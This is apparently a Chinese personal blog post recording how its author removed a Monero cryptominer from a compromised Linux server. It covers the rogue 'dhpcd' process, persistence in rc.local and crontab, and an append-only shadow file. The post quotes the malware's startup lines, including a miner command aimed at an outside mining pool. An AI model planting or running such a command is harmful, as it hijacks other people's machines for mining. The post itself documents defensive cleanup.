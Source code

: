 ```yaml
---
title:  处理挖矿病毒
date: 2020-09-06 10:25:54
tags: 
 - 挖矿病毒
categories: 
 - linux
---
```

# 开始

> 不知道为什么主机中了挖矿病毒，记录一下解决过程

## 发现问题

> 主机 ssh 密钥登录突然失败，root 密码也错误，用谷歌 控制台登录后，发现 密钥文件被篡改，用 top 命令发现有一个 dhpcd 进程占了 25% 的 cpu

## 检查、解决问题

> 查看进程未知 pid，通过 pid 查看进程文件位置 `ls -l /proc/pid/exe` , 杀掉进程，然后看其他地方有没有自启动脚本

###  自启动

#### 开机启动

> `vi /etc/rc.d/rc.local`  查看是否有未知启动命令，发现如下命令



```shell

touch /var/lock/subsys/local
"/root/pty3"
#/bin/dhpcd -o sg.minexmr.com:4444 -B >/dev/null 2>/dev/null

```

> 经百度，`sg.minexmr.com` 是门罗毕地址

#### 定时任务

> `crontab -l`  、 `crontab -u root -l` ，查看定时任务，发现同样的脚本，取消用户定时任务 crontab -r 

#### ssh 密钥

> 从新设置密码，报 `passwd: Authentication token manipulation error` ， 百度发现密码和两个文件有关，`/etc/passwd` ，`/etc/shadow` ，尝试使用 pwconv 命令  ，提示 `chmod: changing permissions of ‘shadow’: Operation not permitted` 使用 lsattr 发现 passwd 文件无异常，而 shadow文件 有一个 a 属性，a 表示只能追加，不能修改，使用 `chattr -a shadow` 取消 a 属性，使用 pwconv 不报错 ，修改密码成功，上传 ssh 公钥 文件，修改 `/root/.ssh/authorized_keys` 文件，重启 `sshd` 服务`systemctl restart sshd`

### 思考

> 主机 root 密码设置过于简单，端口开发的有点多，多出的未知文件没有引起警觉